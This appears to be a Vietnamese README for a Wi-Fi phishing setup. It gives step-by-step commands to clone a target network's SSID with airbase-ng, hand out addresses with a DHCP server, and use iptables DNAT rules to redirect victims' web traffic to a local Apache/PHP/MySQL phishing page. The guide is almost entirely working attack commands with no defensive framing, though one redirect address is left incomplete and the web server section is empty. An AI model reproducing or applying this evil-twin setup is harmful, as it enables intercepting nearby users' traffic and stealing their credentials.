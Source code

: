 # Wifi-Phishing-

I. Cài đặt và cấu hình isc-dhcp-server
1. Khởi động terminal và gõ lệnh sau.
  apt-get update
  apt-get install isc-dhcp-server –y
2. Cấu hình isc-dhcp-server bằng cách chỉnh sửa /etc/dhcp/dhcpd.conf.
  authoritative;
  default-lease-time 600;
  max-lease-time 7200;
  subnet 192.168.1.0 netmask 255.255.255.0
  {
    option subnet-mask 255.255.255.0;
    option broadcast-address 192.168.1.255;
    option routers 192.168.1.1;
    option domain-name-servers 8.8.8.8;
    range 192.168.1.10 192.168.1.100;
  }
II. Cấu hình web server
III. Giải quyết vấn đề xung đột giữa Airmon-Ng và Network Manager
  Tại  tập tin /etc/NetworkManager/NetworkManager.conf thêm: 
  [keyfile]
  unmanaged-devices=interface-name:wlan0mon;interfacename:wlan1mon;interface-name:wlan2mon;interface-   name:wlan3mon;interfacename:wlan4mon;interfacename:wlan5mon;interfacename:wlan6mon;interfacename:wlan7mon;interface-name:wlan8mon;interface-    name:wlan9mon;interfacename:wlan10mon;interface-name:wlan11mon;interface-name:wlan12mon
IV. Tạo Wifi Access Point giả
  1. Mở wireless adapter vào chế độ giám sát:
    airmon-ng start wlan0
  2. Dùng lệnh sau để theo dõi thông số các wifi internet trong phạm vi, để lấy thông tin wireless mục tiêu:
    airodump-ng wlan0mon
  3. Tiến hành khởi tạo AP giả:
    airbase-ng -e "<SSID>" -c 1 wlan0mon
  4. Mặc định airbase-ng sẽ tạo một interface at0 để bridge luồng traffic thông qua rogue access point, sử dụng lệnh ifconfig at0 để xem
  5. Tiến hành phân bổ địa chỉ IP và Subnet Mask cho cổng at0 và định tuyến:
    ifconfig at0 192.168.1.1 netmask 255.255.255.0
    route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.1
  6. Xem thông tin định tuyến để lấy địa chỉ ip:
    ip route
V. Thiết lập Rule cho firewall
  1. Cấu hı̀nh cho phép client khi kết nối access point giả có thể ra mạng internet:
    iptables --table nat --append POSTROUTING --out-interface eth0 -j MASQUERADE
    iptables --append FORWARD --in-interface at0 -j ACCEPT
    iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination 192.168..:80
    iptables -t nat -A POSTROUTING -j MASQUERADE
  2. Kích hoạt forwarding.
    echo 1 > /proc/sys/net/ipv4/ip_forward
VI. Khởi động các dịch vụ
  1. Cấp phát địa chı̉cho client khi kết nối vào access point giả
    dhcpd -cf /etc/dhcp/dhcpd.conf -pf /var/run/dhclient-eth0.pid at0
  2. Khởi động các dịch vụ
    service isc-dhcp-server start
    service apache2 start
    sudo apt install mariadb-server
    sudo mysql_secure_installation
    sudo apt install php libapache2-mod-php php-mysql
    
    #$db = new PDO("mysql:host=localhost;dbname=$database", $user, $password);
